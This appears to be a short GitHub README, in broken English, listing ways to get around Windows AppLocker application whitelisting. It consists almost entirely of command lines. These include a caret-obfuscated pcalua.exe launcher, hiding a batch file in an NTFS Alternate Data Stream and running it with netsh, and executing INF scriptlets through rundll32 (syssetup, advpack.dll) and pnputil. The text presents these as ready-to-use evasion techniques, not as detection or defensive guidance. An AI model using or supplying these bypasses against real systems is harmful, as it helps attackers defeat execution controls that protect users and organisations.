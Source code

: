 # AppLocker
specialized Security and protection of users, Of malicious execution in System, the main target of it the restriction Run Execution Attacker, Applocker has some Rules For Restricted Ex-Run, All these contents come to of my research and not to be share by anyone

pcalua.exe:>
-------------------------------------------------------------
```
p^c^a^l^u^a^ ^-^n^ ^-^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n notepad.exe
```

Alternate Data Streams ADS:>
-------------------------------------------------------------
```
cmd.exe:> type C:\Users\Gihad\Desktop\file.bat > C:\Users\Gihad\Desktop\test.txt:x22x2
cmd.exe:> netsh exec C:\Users\Gihad\Desktop\test.txt:x22x2
```

ScriptLet Execution InSide .INF:>
-------------------------------------------------------------
```
rundll32.exe syssetup,SetupInfObjectInstallAction DefaultInstall 128 C:\FilesINFExecution.inf 

rundll32 advpack.dll,LaunchINFSectionEx C:\testExecutionINF.inf,Name Method invoke in Files INF,
```

pnputil.exe Launcher installer .INF:>
-------------------------------------------------------------
```
pnputil.exe /add-driver C:\FilesINFExecution.inf /install

```

